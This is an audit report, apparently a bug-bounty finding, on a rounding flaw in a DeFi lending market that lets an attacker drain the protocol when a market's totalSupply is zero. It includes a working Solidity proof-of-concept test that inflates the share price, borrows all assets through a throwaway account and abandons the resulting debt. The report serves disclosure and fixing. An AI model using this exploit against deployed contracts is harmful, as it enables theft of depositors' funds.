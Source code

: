 Joyful Lavender Dalmatian

high

# The Rounding Done in Protocol's Favor Can Be Weaponized to Drain the Protocol

## Summary
- When the totalSupply of a market is 0, an attacker can take advantage of #1 and #2 to drain the entire protocol.

## Vulnerability Detail
- The attacker inflates the value of 1 share to a large value, making it sufficient to borrow all the borrowable assets using stealth donation as described in #1 using the original account.
- They create a throwAway account and mint 1 wei of share to that account as well.
  - They put up this 1 wei of share as collateral, borrow all the available assets, and transfer them to the original account.
  - Abandon the market by withdrawing only 1 wei of asset which is allowed, because 1 wei of asset won't be enough to make the position unhealthy (checked using `auditor.shortfall` at the start of the withdrawal). However, this results in 1 whole wei of share (worth a large value) being burnt due to rounding up. See #2.
  - As a result, the throwaway account will now have 0 collateral and a lot of debt.
- The original account now has the claim to all the assets as they are the only holder of shares. Since the original account never borrowed, they are able to withdraw all the assets. Additionally, they receive all the borrowed assets that the throwaway account sent to it.

## Impact
- If the totalSupply of a market is 0, the whole protocol can be drained.

## Code Snippet
- https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L726

##POC
- Add below testcase in `test/Market.t.sol`
```solidity

contract ThrowAwayAccount {
  function enterMarketAndBorrow(Market exactlyMarketToEnter, Market exactlyMarketToBorrowFrom) public {
    exactlyMarketToEnter.auditor().enterMarket(exactlyMarketToEnter);

    //borrow all the available assets
    exactlyMarketToBorrowFrom.borrow(3000 ether, msg.sender, address(this));

    //abandon the market by withdrawing only 1 wei of asset
    //this is allowed because 1 wei of asset won't be enough to make postion unhealthy (checked using auditor.shortfall at the start in withdraw)
    //but results in 1 whole wei of share (worth 8000 ether) being burnt due to rounding up
    exactlyMarketToEnter.withdraw(1, address(this), address(this));

    //This market will be underwater after that since the 1 wei they deposited as collateral has now been burnt
  }
}

 function testDrainProtocol() external {
    marketWETH.asset().transfer(BOB, 3000 ether);
    //this is the deposit that will be stolen later on
    vm.prank(BOB);
    marketWETH.deposit(3000 ether, BOB);

    //These are attacker's interactions that uses DAI market which has 0 totalSupply to drain the protocol (BOB's 3000 ether in this case)
    uint256 wETHBalanceBefore = marketWETH.asset().balanceOf(address(this));
    uint256 assetBalanceBefore = market.asset().balanceOf(address(this));
    //require that the total Supply is zero
    require(market.totalSupply() == 0, "totalSupply is not zero");

    //enter the market
    market.auditor().enterMarket(market);

    //make a small deposit
    market.deposit(0.01 ether, address(this));
    //borrow even smaller amount
    uint256 borrowShares = market.borrow(0.005 ether, address(this), address(this));

    //wait for 1 block which is enough so that atleast 1 wei is accured as interest
    vm.roll(block.number + 1);
    vm.warp(block.timestamp + 10 seconds);

    //deposit a few tokens to accure interest
    market.deposit(2, address(this));

    //repay all the debt
    market.refund(borrowShares, address(this));

    //redeem all but 1 wei of the deposit
    uint256 shares = market.balanceOf(address(this));
    market.redeem(shares - 1, address(this), address(this));

    require(market.totalAssets() == 2 && market.totalSupply() == 1, "starting conditions are not as expected");

    uint256 desiredPricePerShare = 8000 ether;
    // The loop to inflate the price
    while (true) {
      uint256 sharesReceived = market.deposit(market.totalAssets() * 2 - 1, address(this));
      require(sharesReceived == 1, "sharesReceived is not 1 as expected"); //this should have been 1.99999... for larger values of i but it is rounded down to 1

      if (market.totalAssets() > desiredPricePerShare) break;

      uint256 sharesBurnt = market.withdraw(1, address(this), address(this));
      require(sharesBurnt == 1, "sharesBunrt is not 1 as expected"); //this should have been ~0.0000001 for larger values of i but it is rounded up to 1
    }

    uint256 sharesBurnt = market.withdraw(market.totalAssets() - desiredPricePerShare, address(this), address(this));
    require(sharesBurnt == 1, "sharesBunrt is not 1 as expected");

    require(
      market.totalAssets() == desiredPricePerShare && market.totalSupply() == 1, "inflating the price was unsuccessful"
    );

    ThrowAwayAccount throwAwayAccount = new ThrowAwayAccount();

    //mint 1 wei of share (worth 8000 ether) to the throwaway account
    market.mint(1, address(throwAwayAccount));
    //throwAwayAccount puts up 1 wei of share as collateral, borrows all available assets and then withdraws 1 wei of asset
    throwAwayAccount.enterMarketAndBorrow(market, marketWETH);

    //this throwaway account now has a lot of debt and no collateral to back it
    (uint256 collateral, uint256 debt) = auditor.accountLiquidity(address(throwAwayAccount), Market(address(0)), 0);
    assertEq(collateral, 0);
    assertGt(debt, 3000 ether);

    //attacker gets away with everything
    market.withdraw(market.totalAssets(), address(this), address(this));

    assertEq(market.asset().balanceOf(address(this)), assetBalanceBefore - 1); //make sure attacker gets back all their assets
    //in addtion they get the borrowed assets for free
    assertEq(marketWETH.asset().balanceOf(address(this)), wETHBalanceBefore + 3000 ether);
  }
```
## Tool used
Manual Review

## Recommendation
- Fix #1 and #2 
